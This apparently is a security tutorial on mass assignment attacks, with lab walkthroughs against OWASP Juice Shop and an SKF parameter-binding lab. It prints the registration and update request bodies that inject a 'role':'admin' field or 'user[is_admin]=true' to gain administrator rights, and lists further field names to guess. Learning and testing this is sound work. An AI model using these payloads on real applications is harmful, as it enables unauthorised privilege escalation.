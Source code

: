 The **Mass Assignment Attack** is based on the manipulation of input parameters of an HTTP request to create or modify fields in a data model object in the web application. Instead of adding new parameters, attackers attempt to exploit the functionality of existing parameters to modify fields that should not be accessible to the user.

For example, in a user management web application, a registration form may have fields for username, email and password. However, if the application uses a library or framework that allows bulk parameter mapping, the attacker could manipulate the HTTP request to add an additional parameter, such as the user's privilege level. In this way, the attacker could log in as a user with elevated privileges by simply adding an additional parameter to the HTTP request.

# Examples

## Example 1

To set up the lab for this example we will run the following commands:

```bash
docker pull bkimminich/juice-shop

docker run -dit -p3000:3000 --name JuiceShop bkimminich/juice-shop
```

After this we are going to enter *localhost* on port *3000* and we are going to *register* in the login panel, registering this web request with **BurpSuite**.

We see that the body that is sent contains the following *JSON* data:

```json
{
	"email":"loki@example.com",
	"password":"Loki1234.",
	"passwordRepeat":"Loki1234.",
	"securityQuestion":{
		"id":1,"question":"Your eldest siblings middle name?",
		"createdAt":"2023-07-08T07:48:39.127Z",
		"updatedAt":"2023-07-08T07:48:39.127Z"
	},
	"securityAnswer":"SSS"
}
```

We can also see that when the registration is successful, it returns the following *JSON* data:

```json
{
	"status":"success",
	"data":{
		"username":"",
		"role":"customer",
		"deluxeToken":"",
		"lastLoginIp":"0.0.0.0",
		"profileImage":"/assets/public/images/uploads/default.svg",
		"isActive":true,
		"id":21,
		"email":"loki@example.com",
		"updatedAt":"2023-07-08T09:57:09.172Z",
		"createdAt":"2023-07-08T09:57:09.172Z",
		"deletedAt":null
	}
}
```

In the response we see that a *role* field is included whose value is *customer*. We could try to register with a new email but sending the field *role* whose value will be *admin*:

```json
{
	"email":"loki2@example.com",
	"password":"Loki1234.",
	"passwordRepeat":"Loki1234.",
	"role":"admin",
	"securityQuestion":{
		"id":1,"question":"Your eldest siblings middle name?",
		"createdAt":"2023-07-08T07:48:39.127Z",
		"updatedAt":"2023-07-08T07:48:39.127Z"
	},
	"securityAnswer":"SSS"
}
```

In this case we have been able to register as *administrator* thanks to the *role* field.

## Example 2

To set up the lab for this example we will run the following commands:

```bash
docker pull blabla1337/owasp-skf-lab:parameter-binding

docker run -it -p3000:3000 --name ParameterBinding blabla1337/owasp-skf-lab:parameter-binding
```

After this we are going to enter *172.17.0.2* on port *5000* and let's modify the *Guest* user data, registering this web request with **BurpSuite**.

Our request is as follows:

```bash
# URL-encoded
utf8=%E2%9C%93&_method=patch&authenticity_token=bjhS7tISzW9edySeLm21gwxPSP%2Be3vGMFa5oRJFnZCnemjQ4sOdUi4nvsddxtp1WgjcVBzy1im9hlcT050XtlQ%3D%3D&_method=patch&user%5Busername%5D=Guest2&user%5Btitle%5D=a%20normal%20user&commit=Update%20User

# URL-decoded with CTRL+Shift+U
utf8=â&_method=patch&authenticity_token=bjhS7tISzW9edySeLm21gwxPSP+e3vGMFa5oRJFnZCnemjQ4sOdUi4nvsddxtp1WgjcVBzy1im9hlcT050XtlQ==&_method=patch&user[username]=Guest2&user[title]=a normal user&commit=Update User
```

As we can see the response does not give us any relevant data to elevate our *privileges*, but we see that the request chains a series of fields and assigns them a value so we could try to assign the value of *admin* concatenating a new field:

```bash
# URL-decoded with CTRL+Shift+U
utf8=â&_method=patch&authenticity_token=bjhS7tISzW9edySeLm21gwxPSP+e3vGMFa5oRJFnZCnemjQ4sOdUi4nvsddxtp1WgjcVBzy1im9hlcT050XtlQ==&_method=patch&user[username]=Guest2&user[title]=a normal user&user[is_admin]=true&commit=Update User
```

In this case the value that worked is *is_admin*, but we must use our imagination with values such as *admin*, *isAdmin*, *administrator*, *privileged*, etc...

----
> One way to sanitize this type of attack is to define which properties the request should allow, and not allow the user to add as many as he wants.
----